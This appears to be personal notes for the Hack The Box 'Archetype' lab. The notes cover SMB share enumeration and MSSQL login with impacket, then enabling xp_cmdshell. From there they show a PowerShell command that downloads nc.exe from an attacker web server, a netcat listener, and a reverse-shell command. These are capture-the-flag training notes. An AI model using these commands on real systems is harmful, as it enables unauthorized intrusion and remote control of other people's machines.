 # Archetype
---
- use nmap to scan for open ports
- smbclient -N -L \\\\10.129.165.218\\ to list shares 
- inspect if there is any non-Administrative share
- connect to db (if known pass and username)
```bash
impacket-mssqlclient -p 1433 <HOST>/<USER>@ADDRESS -windows-auth
```

- make shell `enable_xp_cmdshell`
- test with `xp_cmdshell whoami`
- launch  web server on attacker machine and prepare `nc.exe` to send
- receive nc.exe through web server ``
```bash
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://<addresss_of_webserver_with_nc>/nc.exe -outfile nc.exe"
```
- setup nc listener on attacker machine 
```bash
nc -lvnp 4433
```

- connect back to host enabling revers shell
```bash
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads\; .\nc.exe -e cmd.exe <attacker_ip> 4433 "
```
- find user flag
- send [[PEASS Priv Escal]] to the victim machine
- find admin password 

##### Note:
---
SMB non-Administrative share does NOT have `$` at the end 
